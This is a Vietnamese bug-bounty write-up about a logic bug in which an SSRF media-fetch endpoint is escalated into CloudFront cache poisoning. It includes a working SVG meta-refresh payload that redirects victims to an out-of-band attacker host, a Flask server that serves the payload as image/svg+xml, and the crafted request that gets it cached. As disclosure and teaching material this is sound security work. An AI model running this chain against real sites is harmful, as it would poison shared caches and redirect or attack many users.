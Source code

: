 ```yaml
---
date: 2025-05-04 10:15:00
---
```


# SSRF-induced Cache Poisoning Logic Bug

Hi, hôm nay mình sẽ chia sẻ về lỗ hổng `Cache Poisoning(Biến Thể)` mà mình vô tình gặp được ở `BugCrowd`. Được rồi chúng ta bắt đầu thôi!

![alt text](/posts/image-post/cache-poisoning-via-fetching-data/1.jpg)

---
## 1. Phân tích lỗ hổng Cache Poisoning thông qua Server-Side Request Forgery ?

Được rồi tại sao mình lại nói như vậy? Có lẻ mọi người sẽ khá thắc mắc, lỗ hổng này bắt nguồn từ việc tìm được `Proxy Controller Endpoint` vì vậy mình đã POC được `SSRF` nhưng ở đây chỉ là `P5 Informational` vì `Program` họ phân định rằng `SSRF` chỉ tương tác được với dịch vụ bên ngoài hoặc tương tác với `Server Attacker` đều là `Low-Impact`. Vì vậy họ nói rằng mình nên tìm cách nâng `Impact` của nó lên cao hơn họ sẽ đánh giá lại!

![alt text](/posts/image-post/cache-poisoning-via-fetching-data/2.png)

---
## 2. Phát Hiện Cache Poisoning như nào ?

Trong quá trình đang POC `SSRF` thì 1 anh hợp tác cùng phát hiện nó ép sử dụng `Response Header` như sau: `image/svg+xml` thì trước đó khi gửi `Request` cho nó `Fetch` tới Web Attacker mình đặt là `text/html` vì vậy luôn luôn báo 400 vì vậy anh ấy đã thử từng cái `Response Header` sau khi thử thành công thì khi sử dụng `image/svg+xml` thì là status 200.

- Đây là lúc dùng `text/html` status là 400

![alt text](/posts/image-post/cache-poisoning-via-fetching-data/4.jpg)

- Còn đây là lúc dùng `image/svg+xml`

![alt text](/posts/image-post/cache-poisoning-via-fetching-data/3.jpg)

hãy để ý phần `Content-Type` ở dòng thứ 2 của `Response Header` nó chấp nhận với `image/svg+xml` và nếu các bạn tinh ý có thể thấy rằng phần tấm ảnh thứ 4 hay không ở phần cuối `Response Header` sẽ thấy nó đã Save `Cache` vào `CloudFront` với `Response Header` là `X-Cache: Hit fromt cloudfront` và cái quan trọng nhất vẫn là cái `Age: 5`. Nghĩa là thật sự nó đã Save Vào `Cache`. Và 1 điều quan trọng nữa thật sự đây là 1 `biến thể` mình lần đầu gặp vì thông thường `Cache Poisoning` sẽ không save `Cache` thông qua `Fetch` tới `Server Attacker`.

Note: Mình sử dụng https://requestrepo.com/#/requests để thực hiện thay đổi `Response Header`
![alt text](/posts/image-post/cache-poisoning-via-fetching-data/5.png)

---
## 3. Làm Sao mình có thể chứng minh chuẩn cho Vendor hiểu rằng thật sự là Cache Poisoning

Dĩ Nhiên là phải cho họ thấy mình tấn công 1 người dùng như nào thông qua `Cache Poisoning` rồi!

Mình có `Payload` như sau:

`Poc.xml`
```xml
- Payload xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<svg xmlns="http://www.w3.org/2000/svg" version="1.1">
  <foreignObject width="100%" height="100%">
    <body xmlns="http://www.w3.org/1999/xhtml">
      <meta http-equiv="refresh" content="0; url=https://wcc9fwntbs9o7upj4haqmnxi0960uqif.oastify.com/" />
    </body>
  </foreignObject>
</svg>
```

`Payload` này được sử dụng cho việc tiến hành tấn công `Open Redirect` tới `Server Attacker`, nghe có vẻ `low-impact` nhỉ ? Nhưng quan trọng cái họ quan tâm làm thế nào để `Payload` này save vào `Cache` và gây ra tấn công Hàng Loạt mà thôi!

Note: Nãy giờ có nhiều bạn hơi thắc mắc tại sao mà mình đưa `Payload` vào được phải không, bởi vì lỗ hổng `SSRF` đã `Fetch` tới `Server Attacker` và bê toàn bộ `Payload` từ File `Poc.xml` của mình về `Response` của `Server`.

![alt text](/posts/image-post/cache-poisoning-via-fetching-data/6.png)

---
## 4. POC Cache Poisoning Thật Sự !

Có lẻ đã hoàn toàn xong ? Vâng đúng vậy chắc chắn đã xong rồi nhưng làm thế nào mình khẳng định cho họ rằng nó thật sự nghiêm trọng ?

Tiến hành di chuyển sang `VPS Server` để đào sâu hơn. Mình đã tự viết 1 Web với `Python Flask` như sau để đào sâu và tăng impact từ `P4 -> P3`

---

tạo app.py và file poc.xml cùng thư mục và chạy server

```python
- Code Cần thêm vào
from flask import Flask, make_response
import os

app = Flask(__name__)

@app.route('/poc.xml')
def serve_svg_as_xml():
    file_path = os.path.join(os.getcwd(), 'poc.xml')
    if os.path.exists(file_path):
        with open(file_path, 'rb') as f:
            response = make_response(f.read())
            response.headers.set('Content-Type', 'image/svg+xml')
            return response
    else:
        return "File poc.xml not found!", 404

if __name__ == '__main__':
    app.run(debug=False, host='0.0.0.0', port=5505)
```
---

```http
- Request ở Repeater
GET /media?u=http://Ip-Demo:5505/poc.xml HTTP/2 
Host: VulnWeb.com 
Cookie: _learn_session_adhoc=23bd7501d7eb466a35f70e1bfe50adde; _ga=GA1.1.165183293.1744628537; _ga_L9HT5MZ3HD=GS1.1.1744628536.1.0.1744629162.60.0.0; _ga_Z6QQP1041C=GS1.1.1744628539.1.0.1744629162.60.0.0 
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8" Sec-Ch-Ua-Mobile: ?0 Sec-Ch-Ua-Platform: "Windows" Accept-Language: en-US,en;q=0.9 
Upgrade-Insecure-Requests: 1 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7 Sec-Fetch-Site: none Sec-Fetch-Mode: navigate Sec-Fetch-User: ?1 
Sec-Fetch-Dest: document 
Accept-Encoding: gzip, deflate, br 
Priority: u=0, i
```

Một điểm quan trọng ở đây khi mình nhìn `Logs` của `Server Attacker` đó là gửi `Request` hơn 10 lần đến `Server` nhưng thật sự nó chỉ có trên `Logs` 2 lần ? Nghĩa là `Server` có lỗ hổng thật sự ở đây là `Logic Bug` không phải là lỗ hổng `Cache Poisoning` thông thường nữa, vì rỏ ràng đây là 1 tính năng `Fetch` tới sau đó lưu vào `Cache` của `CloudFront` nhưng `Dev` vô tình cho phép nó `Fetch` các `Data` từ bên ngoài vì vậy gây ra lỗi `Cache Poisoning`!

![alt text](/posts/image-post/cache-poisoning-via-fetching-data/7.jpg)

## 5. Sơ đồ và giải thích chi tiết hơn

### + Phân biệt với cache poisoning “thông thường”

- **Cache poisoning thường**  
  1. Attacker gửi request có payload ngay từ client.  
  2. Server hoặc CDN nhúng payload vào response.  
  3. CDN cache response và trả lại cho các client tiếp theo.  
  4. Công việc chính: tuỳ biến tiêu đề (`Host`, `Vary`, `Cache-Control`…) để điều khiển key cache khác nhau.

- **Biến thể logic bug này**  
  1. **Trung gian là SSRF/Fetch**  
     - Payload (SVG/XML) được fetch từ **server attacker**, không phải từ browser nạn nhân.  
  2. **Server chính** vô tình để `Fetch` trả về response với header `Content-Type: image/svg+xml`, nên **CloudFront tự động cache**.  
  3. **Logic lặp lại**: sau khi cache, dù nạn nhân gửi yêu cầu nhiều lần, request không được chuyển tới SSRF nữa, vẫn sử dụng bản cache cũ—gắn chặt payload attacker lên nội dung trả về.

---

### + Tại sao gọi là “logic bug” đúng hơn?

1. **Lỗi thiết kế flow** chứ không chỉ là cấu hình cache sai.  
2. **Server attacker** được phép fetch bất kỳ URL nào và trả về thẳng cho CDN.  
3. **Flow “Fetch → Cache → Serve”** không có kiểm soát (whitelist domain, validate header response…), dẫn tới SSRF bị “leo thang” thành cache poisoning.  
4. Hậu quả nghiêm trọng hơn: không chỉ cache sai nội dung, mà còn **tấn công hàng loạt nạn nhân** thông qua payload SVG/redirect, XSS, Download File Malicious.

---

### + Flow diagram

![alt text](https://mermaid.ink/img/pako:eNp9kV9PwjAUxb9Kcw1viIx_gz6YwBCMYmLEoHHzoWyXrbFrsXQGJfvudgUMJsY-9d7fOec2tzuIVYJAoVbbcckNJbtIEhKByTDHCKi9JrhihTAR1E_QgmnOlgI3lcZ5KrRS0sz518Ho9dbbg-sIn5CnmdnjpRLJCTa4NYESSu_pWdOdE4HgEv8VYJLijC1RjFj8lmpVSJtPrXLlTgSVsIxkWdZqkUw1W2dk9lA1h-GCx488fyXn55fkJnzA9wI3Zl-OwkCoIplo-_7XSn0VzlF_oCZDY-wk1HvdbXjHBI-5Kjbkd0BlGrlrcLC6nMC1xuG9VttPMkETZ2TMDHNw7OB1GExIwOIMyU-4w9cOT09GzhfTi-e7maNTR4dQh1TzBKjRBdYhR52zqoQ_Ppnpt2pBpfWsmXxRKj_a7CLTDOiKiY2tinXCDI45s_vLf7oaZYI6sCs3QNt-14UA3cEWaN9r9Pp-p9dp-l3fG3gWflpRq9Xo9Hyv3ep3297A98s6fLmpzUbf75bfvnzLWw)
